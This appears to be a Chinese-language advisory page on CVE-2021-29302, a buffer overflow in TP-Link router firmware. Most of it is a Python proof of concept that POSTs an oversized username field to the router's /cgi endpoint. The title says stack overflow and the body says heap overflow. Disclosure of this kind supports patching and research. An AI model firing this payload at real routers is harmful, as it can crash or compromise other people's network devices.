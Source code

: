 # TP-link 栈溢出漏洞（CVE-2021-29302）

httpd进程解析HTTP正文消息时会出现缓冲区溢出，这可能导致远程代码执行。例如，当我们第一次设置路由器密码时，http守护进程不会验证外部http消息。如果传输的用户名或密码太长，会导致httpd进程堆空间溢出。

影响版本：

V4_200 <= 2020.06

PoC已公开：https://github.com/liyansong2018/CVE/tree/main/2021/CVE-2021-29302


```py
import requests

headers = {
        "Host": "192.168.0.1",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
        "Accept": "*/*",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "text/plain",
        "Content-Length": "78",
        "Origin": "http://192.168.0.1",
        "Connection": "close",
        "Referer": "http://192.168.0.1/"
}

payload = "a" * 512 + "b" * 1024
formdata = "[/cgi/auth#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\nname={}\r\noldPwd=admin\r\npwd=lys123\r\n".format(payload)
 
proxies = {
        "http": "http://127.0.0.1:8080",
}

url = "http://192.168.0.1/cgi?8"

response = requests.post(url, data=formdata, headers=headers, proxies=proxies)
print response.text
```

ref：

* https://github.com/liyansong2018/CVE/tree/main/2021/CVE-2021-29302
* https://nvd.nist.gov/vuln/detail/CVE-2021-29302